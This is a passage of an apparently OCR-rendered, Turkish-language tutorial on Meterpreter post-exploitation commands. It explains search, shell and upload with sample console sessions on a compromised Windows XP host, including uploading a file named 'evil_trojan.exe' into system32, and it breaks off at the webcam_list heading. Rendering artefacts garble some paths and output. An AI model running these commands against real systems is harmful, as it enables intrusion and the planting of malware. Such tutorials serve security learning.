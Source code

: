 

## search



Karşı sistemde arama yapmamızı sağlar.


```bash
meterpreter **&gt;** search -f autoexec.bat
Found 1 result...
    c:\AUTOEXEC.BAT
meterpreter **&gt;** search -f sea*****.bat c:\\xamp\\
Found 1 result...
    c:\\xampp\perl\b**in**\search.bat **(**57035 bytes**)**
meterpreter **&gt;**
```



## shell



`shell` komutu, Meterpreter içinde karşı sistemin Command Prompt satırına girmenizi sağlar.


```bash
meterpreter **&gt;** shell
Process 39640 created.
Channel 2 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32&gt;
```



## upload



Karşı sisteme bir dosya yüklemenizi sağlar. Hedef sistemin dosya gösterim notasyonu dikkate alınmalıdır. Ters tırnaklara dikkat edilmelidir.


```bash
meterpreter **&gt;** upload evil_trojan.exe c:\\windows\\system32
**[*********]** uploading  : evil_trojan.exe -&gt; c:\windows\system32
**[*********]** uploaded   : evil_trojan.exe -&gt; c:\windows\system32\evil_trojan.exe
meterpreter **&gt;**
```



## webcam_list


